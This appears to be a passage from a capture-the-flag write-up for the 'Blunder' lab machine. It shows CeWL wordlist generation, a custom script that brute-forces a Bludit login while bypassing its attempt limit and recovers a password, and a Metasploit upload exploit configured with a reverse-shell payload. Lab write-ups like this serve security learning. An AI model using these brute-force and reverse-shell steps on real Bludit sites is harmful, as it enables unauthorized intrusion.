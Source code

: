 With [CeWL][cewl] let's build a wordlist based on the words from the website:

```
$ cewl -w blunder_wordlist.txt -m 5 http://10.10.10.191
```

Then we can try to find `fergus` password via bruteforce. I made an exploit
for the Brute Force Mitigation Bypass:
[Bludit-auth-BF-bypass](https://github.com/cyfun/Bludit-auth-BF-bypass).

```
$ ./exploit.rb -r http://10.10.10.191 -u fergus -w blunder_wordlist.txt
[*] Trying password: Plugins
[*] Trying password: Include
[*] Trying password: About
[*] Trying password: Begin
[*] Trying password: service
[*] Trying password: Stadia
[*] Trying password: Dynamic
[*] Trying password: blunder
[*] Trying password: interesting
[*] Trying password: facts
[*] Trying password: devices
[*] Trying password: Google
...
[*] Trying password: RolandDeschain

[+] Password found: RolandDeschain
```

Now we can log in and will probably be able to use one of the authenticated
exploit.

Let's try the [msf][msf] one:

```
msf5 exploit(linux/http/bludit_upload_images_exec) > options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS  RolandDeschain   yes       The password for Bludit
   BLUDITUSER  fergus           yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      10.10.10.191     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.98     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2

msf5 exploit(linux/http/bludit_upload_images_exec) > run
```